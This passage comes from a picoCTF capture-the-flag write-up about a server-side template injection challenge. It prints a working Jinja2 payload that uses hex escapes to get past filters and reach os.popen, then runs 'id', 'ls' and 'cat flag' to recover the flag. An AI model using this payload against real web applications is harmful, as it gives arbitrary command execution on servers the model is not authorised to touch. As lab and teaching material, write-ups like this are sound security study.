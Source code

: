 After some intensive googling, I've arrived at [the payload](https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/). It is as follows.

```python
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}
```

altering the command from 'id' to 'ls' shows that the flag is in the webroot

![ls results](./assets/ssti2/2ssti_ls.png)

adding 'cat flag' to the command gives us the flag ***picoCTF{sst1_f1lt3r_byp4ss_0ef4bd3d}***.

![flag get](./assets/ssti2/flag_get.png)

### Apriti sesamo-300 points

Here's the challenge's description.
